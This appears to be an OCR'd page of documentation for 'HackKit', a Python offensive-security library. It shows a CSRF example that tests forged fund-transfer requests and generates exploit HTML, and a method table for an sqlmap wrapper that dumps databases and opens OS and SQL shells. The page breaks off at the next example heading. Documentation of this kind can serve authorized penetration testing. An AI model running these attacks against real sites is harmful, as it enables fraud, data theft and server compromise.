 ##### Example: CSRF Master Example

```python
from HackKit import CSRF

csrf = CSRF()
url = "http://example.com/transfer"
# Detect tokens
tokens = csrf.detect_csrf_tokens(url)
print(tokens)
# Test GET
print(csrf.test_csrf_get(url, token_param=tokens[0]['name']))
# Test POST
print(csrf.test_csrf_post(url, form_data={"to":"victim","amount":"100"}, token_param=tokens[0]['name']))
# Generate exploit page
html = csrf.generate_exploit_html(url, params={"to":"victim","amount":"100", tokens[0]['name']:"INVALID"})
print(html)
# Suggest
print(csrf.suggest_protection())
```

---


### 6. `SQLI`

**Platforms:** Linux, Windows
**Dependencies:** `sqlmap` CLI (installed via apt on Linux or GitHub ZIP on Windows)

#### Methods

| Method                                                                         | Signature                                                         | Description                                                                                                        |
| ------------------------------------------------------------------------------ | ----------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| `__init__()`                                                                   | `def __init__(self) -> None`                                      | Initialize; detects `platform.system()`, calls `automatic_dependency_checking()`.                                  |
| `automatic_dependency_checking()`                                              | `def automatic_dependency_checking(self) -> None`                 | Installs or downloads `sqlmap`. On Linux via `apt`; on Windows downloads ZIP, extracts, installs requirements.txt. |
| `execute_sqlmap(options: List[str])`                                           | `def execute_sqlmap(self, options: List[str]) -> None`            | Runs `sqlmap` with provided options list. Raises `CalledProcessError` on failure.                                  |
| `banner()`                                                                     | `def banner(self) -> None`                                        | Shows `sqlmap --version`.                                                                                          |
| `scan_url(url: str, level: int =1, risk:int=1)`                                | `def scan_url(self, url: str, level: int=1, risk: int=1) -> None` | Performs a basic scan.                                                                                             |
| `enumerate_databases(url: str)`                                                | `def enumerate_databases(self, url: str) -> None`                 | Lists databases.                                                                                                   |
| `enumerate_tables(url: str, db: str)`                                          | `def enumerate_tables(self, url: str, db: str) -> None`           | Lists tables in specified database.                                                                                |
| `dump_table(url: str, db: str, table: str, columns: Optional[List[str]]=None)` | ... -> None                                                       | Dumps full table or only given columns (comma-separated).                                                          |
| `os_shell(url: str)`                                                           | `def os_shell(self, url: str) -> None`                            | Drops an OS-level shell.                                                                                           |
| `sql_shell(url: str)`                                                          | `def sql_shell(self, url: str) -> None`                           | Opens interactive SQL shell.                                                                                       |

##### Example: SQLI Master Example
